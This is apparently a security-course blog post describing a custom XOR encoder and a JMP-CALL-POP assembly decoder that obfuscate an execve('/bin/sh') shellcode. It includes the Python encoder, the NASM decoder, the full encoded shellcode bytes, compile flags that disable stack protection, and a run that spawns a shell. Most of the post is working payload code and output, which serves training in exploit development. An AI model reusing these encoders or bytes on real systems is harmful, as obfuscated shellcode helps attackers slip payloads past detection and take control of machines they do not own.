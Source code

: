 ```yaml
---
layout: single 
title:  "Custom Shellcode Encoder"
date:   2020-03-15 18:54:48 +0800
categories: jekyll update
---
```


For this 4th assigment, the objective is to create an encoder to obfuscate the shellcode and then the shellcode will be decode itself to execute the decoded/original shellcode.

## Requirements

- Create a custom encoding scheme
- PoC with using execve-stack as the shellcode

## The Encoder

I've created the simple python script to encode the shellcode, the encoder is based on the following method in this order:
- XOR shellcode 4 bytes (dword) size with the custom XOR key (4 bytes) `deafface`
- XOR shellcode byte with the custom byte `0x7`

and the following encoder script will encode the simple `execve("/bin/sh")` shellcode.

{% highlight python linenos %}
#!/usr/bin/env python

# put shellcode here to encode
# http://shell-storm.org/shellcode/files/shellcode-811.php
# execve("/bin/sh")
shellcode = \
("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

res  = ""

# xor key
dkey  = 'deafface' # 4 bytes '\xde\xaf\xfa\xce'
bkey  = 0x7        # byte

def xor_strings(s1, s2):
    return ''.join(format(int(a, 16) ^ int(b, 16), 'x') for a,b in zip(s1,s2))

step = 4
n = 2
for i in range(0, len(shellcode), 4):
    # padding with \x90
    byte    = shellcode[i:step].encode('hex')  + '90'*((8-len(shellcode[i:step].encode('hex') ))/2)

    xor_str = xor_strings(byte, dkey)
    res  += "%s," % ','.join([ hex(int(xor_str[ii-n:ii],16) ^ bkey) for ii in range(len(xor_str),0,-n)])
    step += 4

print "[*] Original Shellcode: \n%s" % "".join([ "0x%s," % 
shellcode.encode('hex')[x:2+x] for x in range(0, len(shellcode.encode('hex')), 2) ])[:-1]
print "[*] Length : %s" % len(shellcode)
print "[+] XOR dword key: 0x%s" % dkey
print "[+] XOR byte key: 0x%s" % bkey
print "[*] Encoded Shellcode: \n%s" % res[:-1]
print "[*] Length : %s" % len(res.split(','))
{% endhighlight %}

### Run the encoder

The encoder will encode the original shellcode to execute `execve("/bin/sh")`. We can see below output the original length of the shellcode is `25` and after encoded it, the length become `29`.
To run the encoder python script:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/encoder$ python encoder.py 
[*] Original Shellcode: 
0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,
0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
[*] Length : 25
[+] XOR dword key: 0xdeafface
[+] XOR byte key: 0x7
[*] Encoded Shellcode: 
0xa1,0xad,0x68,0xe8,0xa1,0x8e,0x87,0xf6,0xa0,0x9f,0x87,0xb1,0x99,0x1e,0x21,0xb7,0x40,
0xae,0x4a,0x50,0x4,0xf6,0x18,0x38,0x59,0x6d,0x38,0x59
[*] Length : 29
{% endhighlight %}

## The Decoder

The decoder is assembly code and using JMP-CALL-POP method, the decoder is based on the following method to decode the shellcode in this order:
- XOR shellcode with the custom byte `0x7`
- XOR shellcode 4 bytes (dword) with the custom XOR key (4 bytes) `deafface`

{% highlight nasm linenos %}
global _start:

section .text
_start:
    jmp short call_shellcode ; JMP-CALL-POP Method

decoder:
    pop esi                 ; get address of EncodedShellcode
    xor ecx, ecx            ; ecx = 0
    mul ecx                 ; eax = 0
    cdq                     ; edx = 0; xor edx, edx
    mov cl, slen            ; cl = length of encoded shellcode
    mov edi, 0xcefaafde     ; xor key: deafface

decode:
    mov al, byte [esi]      ; al= 1st byte
    mov ah, byte [esi + 1]  ; ah= 2nd byte
    mov bl, byte [esi + 2]  ; bl= 3rd byte
    mov bh, byte [esi + 3]  ; bh= 4th byte
    xor al, 0x7             ; xor 1st byte
    xor ah, 0x7             ; xor 2nd byte
    xor bl, 0x7             ; xor 3rd byte
    xor bh, 0x7             ; xor 4th byte
    mov byte [esi], bh      ; replace the 1st byte with decoded shellcode byte
    mov byte [esi + 1], bl  ; replace the 2nd byte with decoded shellcode byte
    mov byte [esi + 2], ah  ; replace the 3rd byte with decoded shellcode byte
    mov byte [esi + 3], al  ; replace the 4th byte with decoded shellcode byte

    xor dword [esi], edi    ; xor dword with xor key

    add esi, 0x4            ; mov to next 4 byte
    sub ecx, 0x4            ; ecx = length of shellcode - decrease counter by 4
    jnz short decode        ; loop if ecx not zero
    
    jmp short EncodedShellcode ; jmp to esi - decoded shellcode 

call_shellcode:
    call decoder            ; jmp to decoder label and save the address of EncodedShellcode
    EncodedShellcode: db 0xa1,0xad,0x68,0xe8,0xa1,0x8e,0x87,0xf6,0xa0,0x9f,0x87,0xb1,0x99,0x1e,
                      db 0x21,0xb7,0x40,0xae,0x4a,0x50,0x4,0xf6,0x18,0x38,0x59,0x6d,0x38,0x59
    slen equ $-EncodedShellcode ; length of the encoded shellcode
{% endhighlight %}

### Run the decoder

To compile and run the shellcode i've created the helper script `Makefile` to automate the repetitive tasks, please refer to ["Shell Bind TCP Shellcode"](http://localhost:8080/jekyll/update/2020/02/01/1-Shell-Bind-Tcp.html#helper-script) page.

To compile the assembly code: `make target=filename`, and this will do the following tasks:
- Print the size of the shellcode
- Print the shellcode hex format
- Put the shellcode into C wrapper
- Compile the C wrapper

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/encoder$ make target=insertion-decoder
[*] Assembling with nasm...
nasm -f elf32 -o insertion-decoder.o insertion-decoder.nasm

[*] Linking object...
ld -m elf_i386 -o insertion-decoder insertion-decoder.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     93       0       0      93      5d insertion-decoder

[*] Shellcode:
"\xeb\x3a\x5e\x31\xc9\xf7\xe1\x99\xb1\x1c\xbf\xde\xaf\xfa\xce\x8a\x06\x8a\x66\x01\x8a
\x5e\x02\x8a\x7e\x03\x34\x07\x80\xf4\x07\x80\xf3\x07\x80\xf7\x07\x88\x3e\x88\x5e\x01
\x88\x66\x02\x88\x46\x03\x31\x3e\x83\xc6\x04\x83\xe9\x04\x75\xd5\xeb\x05\xe8\xc1\xff
\xff\xff\xa1\xad\x68\xe8\xa1\x8e\x87\xf6\xa0\x9f\x87\xb1\x99\x1e\x21\xb7\x40\xae\x4a
\x50\x04\xf6\x18\x38\x59\x6d\x38\x59"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

To run the shellcode inside C wrapper: `make target=filename run-shellcode`

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/encoder$ make target=insertion-decoder run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  93
$ whoami
kecebong
$ uptime
 21:11:20 up 4 days,  4:39,  1 user,  load average: 0.41, 0.17, 0.09
$ exit
kecebong@ubuntu:~/slae32/assigment/encoder$ 
{% endhighlight %}

## Demo
![image](/assets/img/assigment4.gif)

{% include_relative slae32.html %}
